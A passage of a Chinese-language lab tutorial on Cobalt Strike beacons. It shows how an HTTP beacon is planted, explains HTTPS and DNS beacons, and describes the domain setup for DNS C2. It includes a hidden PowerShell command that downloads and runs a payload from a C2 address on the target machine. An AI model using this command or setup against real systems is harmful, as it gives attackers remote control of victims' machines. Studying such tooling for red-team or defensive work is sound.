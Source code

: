 ![image-20240223111429362](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402231114442.png)

![image-20240223110840913](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402231108981.png)

复制弹窗中的命令到靶机中执行：

```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://172.16.86.138:80/test'))"
```

![image-20240223111527176](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402231115256.png)

回到CS，靶机已经上线：

![image-20240223111606515](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402231116605.png)

![image-20240223111800363](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402231118446.png)

**HTTPS Beacon**

HTTPS Beaocn和HTTP Beacon一样，使用了相同的Malleable C2配置文件，使用GET和POST的方式传输数据，不同点在于HTTPS使用了SSL，因此HTTPS Beacon就需要使用一个有效的SSL证书，具体如何配置可以参考：https://www.cobaltstrike.com/help-malleable-c2#validssl。

### DNS Beacon

使用DNS请求将Beacon返回。这些DNS请求用于解析由你的CS团队服务器作为权威DNS服务器的域名。DNS响应告诉Beacon休眠或是连接到团队服务器来下载任务，DNS响应也告诉 Beacon 如何从你的团队服务器下载任务。

在CS 4.0及之后的版本中，DNS Beacon是一个仅DNS的Payload，在这个Payload中没有HTTP通信模式，这是与之前不同的地方。

DNS Beacon的工作流程具体如下：

首先，CS服务器向目标发起攻击，将DNS Beacon传输器嵌入到目标主机内存中，然后在目标主机上的DNS Beacon传输器回连下载CS服务器上的DNS Beacon传输体，当DNS Beacon在内存中启动后就开始回连CS服务器，然后执行来自CS服务器的各种任务请求。

![image-20240223161626900](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402231616992.png)

原本DNS Beacon可以使用两种方式进行传输，一种是使用HTTP来下载Payload，一种是使用DNS TXT记录来下载Payload，不过现在4.0版本中，已经没有了HTTP方式，CS4.0以及未来版本都只有DNS TXT记录这一种选择了，所以接下来重点学习使用DNS TXT记录的方式。

根据作者的介绍，DNS Beacon拥有更高的隐蔽性，但是速度相对于HTTP Beacon会更慢。

**域名配置**

既然是配置域名，所以就需要先有个域名，添加一条A记录指向CS服务器的公网IP，再添加几条ns记录指向A记录域名即可。然后服务器配置防火墙将UDP的53端口放通。（这里我没有多余的服务器和域名，借用eastjun师傅的图）

![image-20211202223623912](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402231124025.png)

配置完可以使用nslookup进行测试

![image-20211202224423180](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402231124031.png)

CS中创建监听器时填写NS记录的域名：

![image-20211202223356738](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402231124673.png)
